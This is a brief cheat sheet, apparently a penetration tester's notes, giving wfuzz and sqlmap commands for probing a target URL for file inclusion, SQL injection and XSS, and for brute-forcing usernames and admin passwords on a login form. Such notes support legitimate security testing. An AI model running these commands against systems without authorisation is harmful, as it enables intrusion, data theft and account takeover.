 # Testing vulnerabilities 

## Directory Traversal

### LFI standard paths
```shell
wfuzz -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh 0 $URL/specials?menu=FUZZ
```

### LFI custom paths and files
Create two wordlists:
1. Containing paths (paths.txt):
   ../
   ../../
   etc.
2. Containing custom files (files.txt): application.properties, applitcation.yml
```shell
wfuzz -w paths.txt -w files.txt --hh 0 $URL/specials?menu=FUZZFUZ2Z
```

## SQL Injection

### GET parameters
```shell
sqlmap -u "$URL?id=1"
```

### POST request
Copy POST request from Burp Suite into `post.txt` file
```shell
sqlmap -r post.txt -p parameter
```

## XSS
```shell
wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-Jhaddix.txt --hh 0 "$URL/specials?menu=FUZZ"
```

## Brute forcing 

### Users discovery

```shell
wfuzz -c -z file,/usr/share/SecLists/Usernames/top-username-shortlist.txt --hc 404,403 "$URL/index.php?user=FUZZ"
```

### Password discovery
```shell
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" "$URL/login.php"
```
